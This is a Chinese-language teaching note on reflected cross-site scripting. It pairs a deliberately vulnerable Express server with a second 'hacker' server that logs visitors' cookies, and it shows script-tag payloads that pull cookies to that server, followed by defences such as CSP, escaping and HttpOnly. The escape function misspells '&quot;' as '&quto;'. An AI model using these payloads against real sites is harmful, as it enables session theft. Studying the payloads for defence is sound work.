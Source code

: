 ## 什么是 XSS

Cross Site Scripting 跨站脚本攻击

通过浏览器地址插入 `JavaScript` 脚本

+ 用来盗取用户 cookie 信息





## 开启两个服务

+ 正常服务 3000 端口
+ 黑客服务 8000 端口



**正常服务3000端口**

```js
const express = require('express');
const cors = require('cors');
const app = express();

// 解决跨域
app.use(cors());  


app.get("/", (req, res) => {
    console.log(req.query.from);
    const data = {
        code: 200,
        msg: "登录成功",
        data: req.query.from
    }
    res.status(200).send(JSON.stringify(data))
});

app.listen(3000, () => {
    console.log('http://localhost:3000/')
})
```



**黑客服务8000端口**

```js
const express = require('express');
const cors = require('cors');
const { json } = require('express');
const app = express();

//  不加上这句代码跨域访问时会出现错误，加上就不会出现跨域错误情况
app.use(cors());


app.get("/", (req, res) => {
    console.log(req.headers.cookie);
    const data = {
        code: 200,
        msg: "登录成功",
        data: req.headers.cookie
    }
    res.status(200).send(req.headers.cookie)
});

app.listen(8000, () => {
    console.log('http://localhost:8000/')
})
```



## 测试

**普通访问**

```
- 地址：http://localhost:3000/?from=china
- 3000 服务打印 china
```



**alert尝试访问**

```
- 地址: http://localhost:3000/?from=<script>alert(3)</script>

- 3000 服务打印 <script>alert(3)</script>
- 浏览器 alert
```



**获取Cookie访问**

```
- 浏览器访问 3000 端口服务
- 浏览器控制台: document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```

```
- 地址：http://localhost:3000/?from=<script src="http://localhost:8000"></script>

- 3000 服务 <script src='http://localhost:8000'></script>
- 8000 服务 显示 cookie
```



## 防范手段

+ `X-XSS-Protection`  设置为 0 

+ `csp`  内容安全策略` (CSP, Content Security Policy)`

  ```js
  // 只允许加载本站资源
  Content-Security-Policy: default-src 'self'
  // 只允许加载 HTTPS 协议图片
  Content-Security-Policy: img-src https://*
  // 不允许加载任何来源框架
  Content-Security-Policy: child-src 'none'
  ```

+ 黑名单转义

  用户的输入永远不可信任的，最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义

  ```js
  function escape(str) {
  	str = str.replace(/&/g, '&amp;')
  	str = str.replace(/</g, '&lt;')
  	str = str.replace(/>/g, '&gt;')
  	str = str.replace(/"/g, '&quto;')
  	str = str.replace(/'/g, '&#39;')
  	str = str.replace(/`/g, '&#96;')
  	str = str.replace(/\//g, '&#x2F;')
  	return str
  }
  ```

+ 白名单转义

  用于富文本处理

+ `HttpOnly Cookie`

  这是预防 XSS 攻击窃取用户 cookie 最有效的防御手段。Web 应用程序在设置 cookie 时，将其属性设为 HttpOnly，就可以避免该网页的 cookie被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。

  ```js
  response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly")
  ```

  
